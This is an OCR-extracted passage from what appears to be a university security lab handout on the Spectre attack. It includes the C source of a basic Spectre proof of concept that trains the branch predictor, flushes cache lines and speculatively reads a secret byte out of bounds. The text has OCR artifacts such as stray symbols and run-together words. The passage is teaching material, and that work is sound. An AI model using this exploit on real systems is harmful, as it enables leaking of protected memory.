 learned that although the true-branch will never be executed ifxis larger than the buffer size, at microarchi-
tectural level, it can be executed and some traces can be left behind when the execution is reverted.

#### 5.2 The Program Used in the Experiment

The code for the basic Spectre attack is shown below. In this code, there is a secret defined in Line¿.
Assume that we cannot directly access thesecret,boundlower, orbounduppervariables (we do
assume that we can flush the two bound variables from the cache). Our goal is to print out the secret using
the Spectre attack. The code below only steals the first byte of the secret. Students can extend it to print out
more bytes.

Listing 4:SpectreAttack.c
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9};
char *secret = "Some Secret Value"; ¿
uint8_t array[256*4096];

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
if (x <= bound_upper && x >= bound_lower) {
return buffer[x];
} else { return 0; }
}

void spectreAttack(size_t index_beyond)
{
int i;
uint8_t s;
volatile int z;

```
// Train the CPU to take the true branch inside restrictedAccess().
for (i = 0; i < 10; i++) {
restrictedAccess(i);
}
```
```
// Flush bound_upper, bound_lower, and array[] from the cache.
_mm_clflush(&bound_upper);
_mm_clflush(&bound_lower);
for (i = 0; i < 256; i++) { _mm_clflush(&array[i*4096 + DELTA]); }
for (z = 0; z < 100; z++) { }
```
s = restrictedAccess(index_beyond); ¡
array[s*4096 + DELTA] += 88; ¬
}
